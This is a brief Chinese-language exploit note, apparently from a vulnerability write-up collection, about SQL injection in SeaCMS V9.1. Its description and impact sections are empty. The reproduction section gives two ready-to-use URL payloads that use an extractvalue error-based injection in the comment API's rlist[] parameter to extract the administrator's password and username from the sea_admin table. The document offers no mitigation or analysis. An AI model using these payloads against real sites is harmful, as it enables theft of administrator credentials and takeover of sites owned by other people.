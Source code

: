 # Seacms V9.1 版本SQL注入

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

获取管理员表中第一个用户的密码


```
http://url/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(password)from%20sea_admin))),@`%27`
```

获取管理员表中第一个用户的账号


```
http://url/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(name)from%20sea_admin))),@`%27`
```